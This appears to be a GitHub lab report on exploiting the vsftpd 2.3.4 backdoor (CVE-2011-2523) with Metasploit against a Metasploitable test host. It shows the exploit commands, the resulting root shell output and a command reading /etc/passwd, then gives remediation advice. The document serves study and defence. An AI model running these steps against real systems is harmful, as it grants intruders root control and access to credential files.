 # 💥 vsftpd 2.3.4 Backdoor Exploit Report

> Exploitation of a known vulnerability in `vsftpd 2.3.4` using Metasploit.

## 📌 Target Details

- **Target IP:** `192.168.150.133`
- **Service:** FTP  
- **Vulnerable Version:** vsftpd 2.3.4  
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
- **Payload:** Command shell (TCP)

---

## 🔍 Vulnerability Summary

`vsftpd 2.3.4` contains a malicious backdoor that opens a command shell on port 6200 when a specially crafted username (ending in `:)`) is received.

> CVE: [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)

---

## 🚀 Exploitation Steps

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.150.133
run
```

### 💥 Shell Access Gained:

```bash
whoami
> root

id
> uid=0(root) gid=0(root)

hostname
> metasploitable

uname -a
> Linux metasploitable 2.6.24-16-server #1 SMP ...

cat /etc/passwd
> root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/bin/sh
  ...
```

---

## 🔐 Impact

Root shell access gives the attacker full control over the target system — including privilege escalation, lateral movement, data exfiltration, and persistent access.

---

## ✅ Recommendation

- **Do NOT use vsftpd 2.3.4.**
- Upgrade to a secure, supported version.
- Restrict external access to FTP.
- Monitor suspicious traffic on port 6200.

---

## 📄 Report

📝 Full PDF report available in this repo: [vsftpd-exploit-report.pdf](./vsftpd-exploit-report.pdf)

---

## 📚 References

- [Rapid7 Module Info](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
- [CVE-2011-2523 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)

---

## 👨‍💻 Author

Made with 🔥 by [vedpakhare](https://github.com/vedpakhare)
